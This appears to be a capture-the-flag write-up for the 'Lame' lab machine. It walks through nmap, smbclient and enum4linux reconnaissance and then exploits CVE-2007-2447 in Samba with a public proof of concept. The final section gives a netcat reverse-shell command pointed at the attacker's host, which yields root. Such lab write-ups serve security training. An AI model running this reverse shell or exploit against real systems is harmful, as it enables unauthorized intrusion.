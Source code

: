 #+TITLE:Lame write up
#+AUTHOR:Wordir

* Enumeration

as first step we ping the machine ip to see if the host is up , and because we are connected to the host
network with vpn, we can start emumerating the services that runs ont the target ip.
to do this we are going to use Nmap , an opensource software , usually used to perform scan on a network

as we can see we have a lot of service here , ssh (to perform remote connection) , ftp (to exchange file),
smb(server message block also used to share data and file in a network)

** result of the scan here:
```
*sudo nmap -sC -sV -O 10.10.10.3*      

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 09:02 EDT
Nmap scan report for 10.10.10.3
Host is up (0.045s latency).
Not shown: 996 filtered tcp ports (no-response)
**21/tcp**  open  ftp         vsftpd 2.3.4
  ftp-syst: 
    STAT: 
  FTP server status:
     Connected to 10.10.14.36
     Logged in as ftp
     TYPE: ASCII
     No session bandwidth limit
     Session timeout in seconds is 300
     Control connection is plain text
     Data connections will be plain text
     vsFTPd 2.3.4 - secure, fast, stable
  ftp-anon: Anonymous FTP login allowed (FTP code 230)
**22/tcp**  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
  ssh-hostkey: 
    1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
    2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
**139/tcp** open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
**445/tcp** open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (90%), Control4 HC-300 home controller (90%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (90%), Dell Integrated Remote Access Controller (iDRAC5) (90%), Dell Integrated Remote Access Controller (iDRAC6) (90%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (90%), Linux 2.4.21 - 2.4.31 (likely embedded) (90%), Linux 2.4.7 (90%), Citrix XenServer 5.5 (Linux 2.6.18) (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
  smb-os-discovery: 
    OS: Unix (Samba 3.0.20-Debian)
    Computer name: lame
    NetBIOS computer name: 
    Domain name: hackthebox.gr
    FQDN: lame.hackthebox.gr
    System time: 2024-03-23T09:03:18-04:00
  smb2-time: Protocol negotiation


OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.14 seconds
```

now because we have multiple services running on multiple ports, we need to test if someone has
a missconfiguration.

** FTP (File Transfer Protocol)

as first, when we see a port dedicated to ftp service, we try to login as:

*user:anonymous*
*password:" "*

The purpose of anonymous FTP access is to provide public access to files stored on the server,
often for purposes such as sharing software, documents, or other files with the general public.
However, because it allows anyone to access files without authentication,
anonymous FTP can pose security risks if not properly configured and monitored,
and sometimes it is possible to log in anonymously due to a misconfiguration

so , once we are in the ftp server we can se that we are in passive mode
(the server tells to the client in which port the client needs to connect for recieve or transfer the data )
and we cant list the direcories or even download some file, so for now it's time to chance ouar target service


** SMB(Server Message Block)
to perform a login and communicate with the SMB server we use *smbclient*
The following command will list out all available shares on the target server using anonymous login.

*smbclient -L \\hackthebox.gr -I 10.10.10.3 -N*

hackthebox.gr is the domain, 10.10.10.3 is the ip of the SMB server

*-L* allows you to look at what services are available on a server.

*-N* If specified, this parameter suppresses the normal password prompt from the client to the user.
This is useful when accessing a service that does not require a password.

** Result:

smbclient -L \\hackthebox.gr -I 10.10.10.3 -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful


now it' time for a better enumeration with *enum4linux* 

*** enum4linux:
enum4linux -a 10.10.10.3
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Mar 23 10:37:56 2024

 =========================================( Target Information )=========================================

Target ........... 10.10.10.3
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =============================( Enumerating Workgroup/Domain on 10.10.10.3 )=============================


[E] Can't find workgroup/domain



 =================================( Nbtstat Information for 10.10.10.3 )=================================

Looking up status of 10.10.10.3
No reply from 10.10.10.3

 ====================================( Session Check on 10.10.10.3 )====================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Server 10.10.10.3 allows sessions using username '', password ''                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 =================================( Getting domain SID for 10.10.10.3 )=================================
                                                                                                                                                                                                                                                                                                                            
Domain Name: WORKGROUP                                                                                                                                                                                                                                                                                                      
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 ====================================( OS information on 10.10.10.3 )====================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[E] Can't get OS info with smbclient                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Got OS info for 10.10.10.3 from srvinfo:                                                                                                                                                                                                                                                                                
        LAME           Wk Sv PrQ Unx NT SNT lame server (Samba 3.0.20-Debian)                                                                                                                                                                                                                                               
        platform_id     :       500
        os version      :       4.9
        server type     :       0x9a03


 ========================================( Users on 10.10.10.3 )========================================
                                                                                                                                                                                                                                                                                                                            
index: 0x1 RID: 0x3f2 acb: 0x00000011 Account: games    Name: games     Desc: (null)                                                                                                                                                                                                                                        
index: 0x2 RID: 0x1f5 acb: 0x00000011 Account: nobody   Name: nobody    Desc: (null)
index: 0x3 RID: 0x4ba acb: 0x00000011 Account: bind     Name: (null)    Desc: (null)
index: 0x4 RID: 0x402 acb: 0x00000011 Account: proxy    Name: proxy     Desc: (null)
index: 0x5 RID: 0x4b4 acb: 0x00000011 Account: syslog   Name: (null)    Desc: (null)
index: 0x6 RID: 0xbba acb: 0x00000010 Account: user     Name: just a user,111,, Desc: (null)
index: 0x7 RID: 0x42a acb: 0x00000011 Account: www-data Name: www-data  Desc: (null)
index: 0x8 RID: 0x3e8 acb: 0x00000011 Account: root     Name: root      Desc: (null)
index: 0x9 RID: 0x3fa acb: 0x00000011 Account: news     Name: news      Desc: (null)
index: 0xa RID: 0x4c0 acb: 0x00000011 Account: postgres Name: PostgreSQL administrator,,,       Desc: (null)
index: 0xb RID: 0x3ec acb: 0x00000011 Account: bin      Name: bin       Desc: (null)
index: 0xc RID: 0x3f8 acb: 0x00000011 Account: mail     Name: mail      Desc: (null)
index: 0xd RID: 0x4c6 acb: 0x00000011 Account: distccd  Name: (null)    Desc: (null)
index: 0xe RID: 0x4ca acb: 0x00000011 Account: proftpd  Name: (null)    Desc: (null)
index: 0xf RID: 0x4b2 acb: 0x00000011 Account: dhcp     Name: (null)    Desc: (null)
index: 0x10 RID: 0x3ea acb: 0x00000011 Account: daemon  Name: daemon    Desc: (null)
index: 0x11 RID: 0x4b8 acb: 0x00000011 Account: sshd    Name: (null)    Desc: (null)
index: 0x12 RID: 0x3f4 acb: 0x00000011 Account: man     Name: man       Desc: (null)
index: 0x13 RID: 0x3f6 acb: 0x00000011 Account: lp      Name: lp        Desc: (null)
index: 0x14 RID: 0x4c2 acb: 0x00000011 Account: mysql   Name: MySQL Server,,,   Desc: (null)
index: 0x15 RID: 0x43a acb: 0x00000011 Account: gnats   Name: Gnats Bug-Reporting System (admin)        Desc: (null)
index: 0x16 RID: 0x4b0 acb: 0x00000011 Account: libuuid Name: (null)    Desc: (null)
index: 0x17 RID: 0x42c acb: 0x00000011 Account: backup  Name: backup    Desc: (null)
index: 0x18 RID: 0xbb8 acb: 0x00000010 Account: msfadmin        Name: msfadmin,,,       Desc: (null)
index: 0x19 RID: 0x4c8 acb: 0x00000011 Account: telnetd Name: (null)    Desc: (null)
index: 0x1a RID: 0x3ee acb: 0x00000011 Account: sys     Name: sys       Desc: (null)
index: 0x1b RID: 0x4b6 acb: 0x00000011 Account: klog    Name: (null)    Desc: (null)
index: 0x1c RID: 0x4bc acb: 0x00000011 Account: postfix Name: (null)    Desc: (null)
index: 0x1d RID: 0xbbc acb: 0x00000011 Account: service Name: ,,,       Desc: (null)
index: 0x1e RID: 0x434 acb: 0x00000011 Account: list    Name: Mailing List Manager      Desc: (null)
index: 0x1f RID: 0x436 acb: 0x00000011 Account: irc     Name: ircd      Desc: (null)
index: 0x20 RID: 0x4be acb: 0x00000011 Account: ftp     Name: (null)    Desc: (null)
index: 0x21 RID: 0x4c4 acb: 0x00000011 Account: tomcat55        Name: (null)    Desc: (null)
index: 0x22 RID: 0x3f0 acb: 0x00000011 Account: sync    Name: sync      Desc: (null)
index: 0x23 RID: 0x3fc acb: 0x00000011 Account: uucp    Name: uucp      Desc: (null)

user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]

 ==================================( Share Enumeration on 10.10.10.3 )==================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME

[+] Attempting to map shares on 10.10.10.3                                                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                            
//10.10.10.3/print$     Mapping: DENIED Listing: N/A Writing: N/A                                                                                                                                                                                                                                                           
//10.10.10.3/tmp        Mapping: OK Listing: OK Writing: N/A
//10.10.10.3/opt        Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:                                                                                                                                                                                                                                                                                              
                                                                                                                                                                                                                                                                                                                            
NT_STATUS_NETWORK_ACCESS_DENIED listing \*                                                                                                                                                                                                                                                                                  
//10.10.10.3/IPC$       Mapping: N/A Listing: N/A Writing: N/A
//10.10.10.3/ADMIN$     Mapping: DENIED Listing: N/A Writing: N/A

 =============================( Password Policy Information for 10.10.10.3 )=============================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            

[+] Attaching to 10.10.10.3 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] LAME
        [+] Builtin

[+] Password Info for Domain: LAME

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set



[+] Retieved partial password policy with rpcclient:                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
Password Complexity: Disabled                                                                                                                                                                                                                                                                                               
Minimum Password Length: 0


 ========================================( Groups on 10.10.10.3 )========================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Getting builtin groups:                                                                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting builtin group memberships:                                                                                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting local groups:                                                                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting local group memberships:                                                                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting domain groups:                                                                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting domain group memberships:                                                                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 ===================( Users on 10.10.10.3 via RID cycling (RIDS: 500-550,1000-1050) )===================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[I] Found new SID:                                                                                                                                                                                                                                                                                                          
S-1-5-21-2446995257-2525374255-2673161615                                                                                                                                                                                                                                                                                   

[+] Enumerating users using SID S-1-5-21-2446995257-2525374255-2673161615 and logon username '', password ''                                                                                                                                                                                                                
                                                                                                                                                                                                                                                                                                                            
S-1-5-21-2446995257-2525374255-2673161615-500 LAME\Administrator (Local User)                                                                                                                                                                                                                                               
S-1-5-21-2446995257-2525374255-2673161615-501 LAME\nobody (Local User)
S-1-5-21-2446995257-2525374255-2673161615-512 LAME\Domain Admins (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-513 LAME\Domain Users (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-514 LAME\Domain Guests (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1000 LAME\root (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1001 LAME\root (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1002 LAME\daemon (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1003 LAME\daemon (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1004 LAME\bin (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1005 LAME\bin (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1006 LAME\sys (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1007 LAME\sys (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1008 LAME\sync (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1009 LAME\adm (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1010 LAME\games (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1011 LAME\tty (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1012 LAME\man (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1013 LAME\disk (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1014 LAME\lp (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1015 LAME\lp (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1016 LAME\mail (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1017 LAME\mail (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1018 LAME\news (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1019 LAME\news (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1020 LAME\uucp (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1021 LAME\uucp (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1025 LAME\man (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1026 LAME\proxy (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1027 LAME\proxy (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1031 LAME\kmem (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1041 LAME\dialout (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1043 LAME\fax (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1045 LAME\voice (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1049 LAME\cdrom (Domain Group)

 ================================( Getting printer info for 10.10.10.3 )================================
                                                                                                                                                                                                                                                                                                                            
No printers returned.                                                                                                                                                                                                                                                                                                       


enum4linux complete on Sat Mar 23 10:39:35 2024



* Exploit

we find that the anonymous login is active, but we didn't find anything interesting in
the only folder we had access to as an anonymous user (tmp)

so now it's time to take a look to the samba service version, *netbios-ssn Samba smbd 3.0.20-Debian*
we found out that there is a CVE for remote code execution : *CVE-2007-2447*, and
we found a poc at this repo on git hub: [[https://github.com/Ziemni/CVE-2007-2447-in-Python][Poc]]

with these command : *python3 smbExploit.py  10.10.10.3 445 'nc -c sh 10.10.14.36 4444'* 

we spawned a shell as root, and we found the root flag and the user flag
